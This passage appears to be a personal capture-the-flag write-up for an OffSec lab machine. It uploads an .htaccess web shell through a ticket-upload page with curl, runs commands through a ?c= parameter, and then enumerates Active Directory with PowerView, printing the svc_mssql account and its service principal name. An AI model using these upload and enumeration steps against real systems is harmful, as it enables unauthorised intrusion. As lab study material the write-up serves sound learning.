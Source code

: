 Now think about it. Ticket.php is actually a hint already. Buy tickets

##### .htaccess shell
```
curl -k http://192.168.70.187/uploads/1.htaccess?c=id 			// Not working

curl -F 'file=@.htaccess' -k http://192.168.70.187/Ticket.php 	// Use -F file= to upload hidden files <- Although it didn't work propery here. Use burp to upload the htaccess instead
curl -k http://192.168.70.187/uploads/.htaccess?c=id 			// 403 Forbidden
```

### We're in, now obviously lateral movement since no flag
```
net users
```

import-module .\PowerView.ps1
'import-module' is not recognized as an internal or external command,
operable program or batch file.

### For ease, let's start powershell and begin local enumeration.
```
powershell
```

import-module .\PowerView.ps1
PS C:\xampp\htdocs\uploads> Get-netuser svc_mssql
Get-netuser svc_mssql

```
company                       : Access
logoncount                    : 1
badpasswordtime               : 12/31/1600 4:00:00 PM
distinguishedname             : CN=MSSQL,CN=Users,DC=access,DC=offsec
objectclass                   : {top, person, organizationalPerson, user}
lastlogontimestamp            : 4/8/2022 2:40:02 AM
name                          : MSSQL
objectsid                     : S-1-5-21-537427935-490066102-1511301751-1104
samaccountname                : svc_mssql
codepage                      : 0
samaccounttype                : USER_OBJECT
accountexpires                : NEVER
cn                            : MSSQL
whenchanged                   : 7/6/2022 5:23:18 PM
instancetype                  : 4
usncreated                    : 16414
objectguid                    : 05153e48-7b4b-4182-a6fe-22b6ff95c1a9
lastlogoff                    : 12/31/1600 4:00:00 PM
objectcategory                : CN=Person,CN=Schema,CN=Configuration,DC=access,DC=offsec
dscorepropagationdata         : 1/1/1601 12:00:00 AM
serviceprincipalname          : MSSQLSvc/DC.access.offsec
givenname                     : MSSQL
lastlogon                     : 4/8/2022 2:40:02 AM
badpwdcount                   : 0
useraccountcontrol            : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated                   : 4/8/2022 9:39:43 AM
countrycode                   : 0
primarygroupid                : 513
pwdlastset                    : 5/21/2022 5:33:45 AM
msds-supportedencryptiontypes : 0
usnchanged                    : 73754
```
